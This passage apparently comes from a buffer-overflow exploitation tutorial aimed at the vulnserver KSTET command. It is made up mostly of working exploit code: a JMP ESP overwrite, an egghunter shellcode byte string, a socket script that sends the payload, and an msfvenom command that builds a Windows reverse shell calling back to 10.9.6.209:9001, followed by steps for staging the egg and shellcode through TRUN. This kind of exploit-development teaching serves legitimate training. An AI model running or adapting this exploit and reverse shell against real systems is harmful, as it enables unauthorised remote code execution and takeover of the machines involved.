 ```python

jmp_esp = 0x62501203
new_eip = struct.pack("<I", jmp_esp)

short_jump = struct.pack("<I", 0x9090B8EB)

# msf-egghunter -b "\x00" -e c0de -f python -v egghunter 
egghunter =  b""
egghunter += b"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd"
egghunter += b"\x2e\x3c\x05\x5a\x74\xef\xb8\x63\x30\x64\x65"
egghunter += b"\x89\xd7\xaf\x75\xea\xaf\x75\xe7\xff\xe7"


payload = b"".join([
    prefix,
    egghunter,
    b"A" * (offset - len(egghunter)),
    new_eip,
    short_jump,
    b"C" *  (crash_length - len(prefix) - offset - len(new_eip) - len(short_jump))
])

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    try:
        s.connect((host, port))
        print("Sending buffer...")
        s.send(payload + b"\r\n")
        print("Done!")
    except:
        print("Could not connect.")
```

Before we fire off the final exploit, we still need to generate shellcode and inject it with our egg into memory. Our  egg in this instance is going to be `c0dec0de`.

-----

## Payload Stage 3: Injecting Our Egg and Shellcode into Memory

Finally, let's generate our shellcode to generate a reverse shell.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.6.209 LPORT=9001 EXITFUNC=thread -b "\x00" -f python -v shellcode
```

Essentially, before we launch our buffer overflow into KSTET, we are going to first send `TRUN c0dec0de` immediately followed by our shellcode.

-----

## Putting the Pieces Together

